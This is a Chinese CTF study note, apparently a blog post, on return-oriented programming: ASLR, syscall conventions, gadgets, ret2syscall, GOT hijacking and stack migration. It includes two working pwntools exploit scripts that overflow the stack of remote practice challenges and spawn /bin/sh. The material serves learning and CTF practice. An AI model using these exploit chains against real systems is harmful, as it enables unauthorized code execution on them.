 ```yaml
---
title: PWN从入门到出入平安（二）——ROP
date: 2023-05-13 21:44:16
tags:
- CTF
- PWN
categories:
- CS
excerpt: "ROP基础,ret2syscall,stack migration"
---
```


# Base

Linux下的ASLR总共有3个级别，0、1、2

- 0就是关闭ASLR，没有随机化，堆栈基地址每次都相同，而且libc.so每次的地址也相同。
- 1是普通的ASLR。mmap基地址、栈基地址、.so加载基地址都将被随机化，但是堆没用随机化

2是增强的ASLR，增加了堆随机化

## 传参

#### 64位

rdi，rsi， rdx， rcx， r8， r9

参数为7个以上，后面以此从右往左放入栈中

## 函数原型

```c
read()：
  ssize_t read(int fd,const void *buf,size_t nbytes); 
  //fd 为要读取的文件的描述符  0
  //buf 为要读取的数据的缓冲区地址 
  //nbytes 为要读取的数据的字节数

  //read() 函数会从 fd 文件中读取 nbytes 个字节并保存到缓冲区 buf，
 //成功则返回读取到的字节数（但遇到文件结尾则返回0），失败则返回 -1。

write() 
  ssize_t write(int fd,const void *buf,size_t nbytes);
  //fd 为要写入的文件的描述符  1 
  //buf 为要写入的数据的缓冲区地址
  //nbytes 为要写入的数据的字节数 

 //write() 函数会将缓冲区 buf 中的 nbytes 个字节写入文件 fd，
 //成功则返回写入的字节数，失败则返回 -1。
printf一直输出到\x00
```

## gadget

* read/rewrite register/memory
  * `pop eax	ret`
  * `mov [eax],ebx	ret`
* system call
* change esp

### 栈溢出基础

[https://zhuanlan.zhihu.com/p/25816426]:写的好啊

# ret2syscall

#### X86

**调用方式：**`int 0x80` 中断进行系统调用

**传参方式：**首先将系统调用号 传入 eax，然后将参数 从左到右 依次存入 ebx，ecx，edx寄存器中，返回值存在eax寄存器

**调用号：**`sys_read` 的调用号 为 3，`sys_write` 的调用号 为 4，`sys_execve`的调用号为11*(0xB)*

#### amd

**调用方式：**`syscall`进行系统调用

**传参方式：**首先将系统调用号 传入 rax，然后将参数 从左到右 依次存入 rdi，rsi，rdx寄存器中，返回值存在rax寄存器

**调用号：**`sys_read` 的调用号 为 0， `sys_write` 的调用号 为 1，`stub_execve` 的调用号 为 59*(0x3B)*，`stub_rt_sigreturn`的调用号 为 15



`execve`函数作用是执行一个新的程序，程序可以是二进制的可执行程序，也可以是shell、pathon脚本

`execve("/bin/sh",NULL,NULL)`可分两次写入`/bin`和`/sh\x00`

​	

# ret2libc


```python
from pwn import*
context.log_level = 'debug'
#p = process("./pwn4")
p = remote("node5.anna.nssctf.cn",28240)
#gdb.attach(p)

elf=ELF("./pwn4")
libc=ELF("libc-2.31.so")
rdi_ret=0x00000000004007d3
ret=0x0000000000400556

payload = 0x68*b'\x00'+p64(rdi_ret)     
payload += p64(elf.got['read'])+p64(elf.plt['puts'])
payload += p64(elf.symbols['_start'])
p.sendline(payload)

libc_base = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))-libc.symbols['read']
sys = libc_base+libc.symbols['system']
binsh = libc_base+next(libc.search(b"/bin/sh"))    

print(hex(sys))

payload = 0x68*b'\x00' + p64(rdi_ret)+p64(binsh)+p64(ret)+p64(sys)
p.sendline(payload)

p.interactive()
```

# got hijacking

把got表地址覆盖为目标函数的地址

# stack migration

[https://www.cnblogs.com/max1z/p/15299000.html#%E6%A0%88%E8%BF%81%E7%A7%BB]:写的好啊

[写的比我好]:https://www.cnblogs.com/max1z/p/15299000.html#%E6%A0%88%E8%BF%81%E7%A7%BB

## 原理

**call func:**

```assembly
push eip+4
push ebp
mov ebp esp
```

**leave:**

```assembly
mov esp ebp
pop ebp
```

**ret:**

```assembly
pop eip
```



## 例

### payload

```python
#!/usr/bin/env python
from pwn import*

context(os = 'linux', arch = 'i386', log_level = 'debug')
def debug(cmd=''):
	cmd += "b main\n"
	gdb.attach(p, cmd)
	pause()

host = "node4.buuoj.cn"
port = 28566
#p = process("./ciscn_2019_es_2")
p = remote(host,  port)
elf =ELF("./ciscn_2019_es_2")

hack_addr = 0x0804854B
leave_ret_addr = 0x080484b8
echoflag_addr = 0x080486c0
vul_addr = 0x08048595
sys_addr = elf.plt['system']

#debug()

p.recvuntil("name?\n")
pl = cyclic(39)
p.sendline(pl)
p.recvuntil("\n")
ebp = u32(p.recvn(4))-0x10
print(hex(ebp))

pl = flat([b"aaaa",sys_addr, b"bbbb",ebp-0x28+16,b"/bin/sh\x00"])
pl += cyclic(16)
pl += flat([ebp-0x28, leave_ret_addr])
p.send(pl)

p.interactive()

```

> 这里解释一下，为什么会有4个字节空余的部分。
> 这里的部分，在正常调用system函数的时候，堆栈位置的system_plt之后的内容为system函数的返回地址，在之后才是新的堆栈的栈顶位置，因此在system_plt和sh_addr之间增加了4个字符来进行填充。

## 其他gadgets

```assembly
add esp,0xNN;ret
sub esp,0xNN;ret
ret 0xNN
xchg esp,exx;ret
partial overwrite ebp
```


